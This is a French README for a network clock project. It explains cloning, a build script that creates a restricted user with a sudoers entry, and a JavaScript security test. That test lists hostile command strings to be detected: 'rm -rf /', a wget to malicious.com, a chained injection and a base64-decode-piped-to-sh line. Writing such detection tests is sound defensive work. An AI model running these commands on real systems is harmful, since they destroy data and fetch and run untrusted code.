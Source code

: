 ### Étapes pour Exécuter le Projet

#### Cloner le Répertoire du Projet
```bash
git clone https://github.com/Oceane4973/Network_clock
cd Network_clock
```

## Configuration des Scripts
Le projet utilise des scripts bash pour gérer les privilèges et l'exécution.

### Exécution du Script `build-and-run.sh`
Ce script s'assure que les dépendances sont installées, construit le projet, et exécute l'application sous un nouvel utilisateur système dont les seuls privilèges élevés sont `date` et le script de changement d'heure dont le chemin est spécifié dans le fichier de configuration `app.properties`.
```bash
chmod +x build-and-run.sh
./build-and-run.sh
```

#### Détails du script `build-and-run.sh` :
1. **Vérification et récupération des propriétés** : Le script vérifie la présence du fichier de configuration et récupère les propriétés nécessaires comme le chemin du script et le nom d'utilisateur.
2. **Création de l'utilisateur** : Si l'utilisateur spécifié n'existe pas, il est créé avec un mot de passe généré.
3. **Copie et configuration du projet** : Le répertoire du projet est copié dans un répertoire temporaire, et les permissions sont ajustées pour que le nouvel utilisateur ait accès.
4. **Configuration de sudoers** : Le script ajoute une entrée dans sudoers pour permettre à l'utilisateur d'exécuter le script de changement d'heure et la commande `date` sans mot de passe.
5. **Construction, tests et exécution du projet** : Le script nettoie, installe les dépendances npm, construit, exécute les tests JavaScript et Kotlin du projet et lance le serveur Ktor en tant que le nouvel utilisateur système.

## Tests 
Le projet inclut plusieurs types de tests pour garantir la sécurité, la robustesse et la performance de l'application.

### Tests Javascript

#### Tests de Sécurité
Des tests sont effectués pour vérifier la résistance de l'application aux injections de commandes et autres attaques malveillantes.

```javascript
test('should detect malicious commands', () => {
    const maliciousCommands = [
        '<script>alert("hack")</script>',
        'rm -rf /',
        'wget http://malicious.com',
        'nc --set-time "yyyy-MM-dd HH:mm:ss" "2023-07-15 12:30:45" ; rm -rf /',
        'base64 -d <<< "dGVzdA==" | sh'
    ];

    maliciousCommands.forEach((command) => {
        expect(terminal.isMaliciousCommand(command)).toBe(true);
    });
});
```
